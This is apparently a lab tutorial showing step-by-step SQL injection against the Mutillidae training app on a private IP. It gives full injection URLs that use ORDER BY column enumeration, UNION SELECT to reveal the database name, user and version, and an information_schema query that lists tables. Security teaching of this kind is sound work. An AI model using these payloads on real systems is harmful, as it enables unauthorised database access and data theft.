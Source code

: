 ![image](https://github.com/user-attachments/assets/46749007-6f79-4a19-9b6a-abb26dc6697c)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/08dfa65d-dff9-44b4-b191-a124515d154e)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![image](https://github.com/user-attachments/assets/9a952a27-9b92-439a-97a3-9e996f7fef81)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/user-attachments/assets/c7166f15-58eb-4fd4-92c0-8f35e91a092e)

As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/user-attachments/assets/0b35bfda-b6fa-4514-b467-bcc944a01edb)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/user-attachments/assets/510f85f8-c011-43bc-8451-1675bc6e197c)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/user-attachments/assets/5f9ea6ae-d371-4b38-8fc2-2ff2c5525c6a)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/02eea7ee-82e8-4722-83f9-c3f86adfa792)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
